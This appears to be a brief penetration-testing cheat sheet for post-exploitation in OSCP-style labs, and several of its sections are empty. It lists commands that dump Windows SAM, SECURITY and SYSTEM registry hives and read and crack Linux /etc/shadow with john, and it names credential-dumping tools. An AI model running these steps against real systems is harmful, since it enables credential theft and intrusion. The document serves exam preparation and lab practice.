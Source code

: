 # Loot, Booty & Plunder

## Methodology

### Dump users hashes

#### Windows

* Using fgdump, wce32.exe
* Extract registries then use secretdump.py or pwdump

```
C:\> reg.exe save hklm\sam c:\windows\temp\sam.save
C:\> reg.exe save hklm\security c:\windows\temp\security.save
C:\> reg.exe save hklm\system c:\windows\temp\system.save
```

* [https://pure.security/dumping-windows-credentials/](https://pure.security/dumping-windows-credentials/)

#### Linux

```
cat /etc/passwd
cat /etc/shadow

unshadow passwd shadow > unshadowed.txt
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

### Search for creds & interesting data

#### Windows

#### Linux

```
ls -laR /home
ls -laR /root

# search for interesting files
```

### Check available services for data

### Re-check network config

#### Windows

#### Linux

```
netstat -antup
arp -a
```

## OSCP Proof Files

```
# Windows
type proof.txt && whoami && hostname && ipconfig

# Linux
cat proof.txt && whoami && hostname && ip addr
```
